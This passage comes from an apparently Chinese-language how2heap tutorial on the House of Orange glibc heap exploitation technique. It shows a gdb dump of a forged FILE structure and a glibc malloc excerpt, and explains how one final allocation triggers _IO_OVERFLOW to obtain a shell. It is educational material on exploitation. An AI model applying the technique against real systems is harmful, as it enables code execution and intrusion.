 ```
  file = {
    _flags = 0x6e69622f, 
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>, 
    _IO_read_end = 0x7ffff7dd1b78 <main_arena+88> "\020@b", 
    _IO_read_base = 0x7ffff7dd2510 "", 
    _IO_write_base = 0x2 <error: Cannot access memory at address 0x2>, 
    _IO_write_ptr = 0x3 <error: Cannot access memory at address 0x3>, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x0, 
    _fileno = 0x0, 
    _flags2 = 0x0, 
    _old_offset = 0x4006d3, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "", 
    _lock = 0x0, 
    _offset = 0x0, 
    _codecvt = 0x0, 
    _wide_data = 0x0, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x602460
}
```

最后随意分配一个 chunk，由于 `size<= 2*SIZE_SZ`，所以会触发 `_IO_flush_all_lockp` 中的 `_IO_OVERFLOW` 函数，获得 shell。
```c
  for (;; )
    {
      int iters = 0;
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
        {
          bck = victim->bk;
          if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
              || __builtin_expect (victim->size > av->system_mem, 0))
            malloc_printerr (check_action, "malloc(): memory corruption",
                             chunk2mem (victim), av);
          size = chunksize (victim);
```

到此，how2heap 里全部的堆利用方法就全部讲完了。


## 参考资料
- [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
- [House of Orange](https://www.lazenca.net/display/TEC/House+of+Orange#HouseofOrange-Sourcecode)
- [house_of_orange](http://blog.leanote.com/post/3191220142@qq.com/house_of_orange)
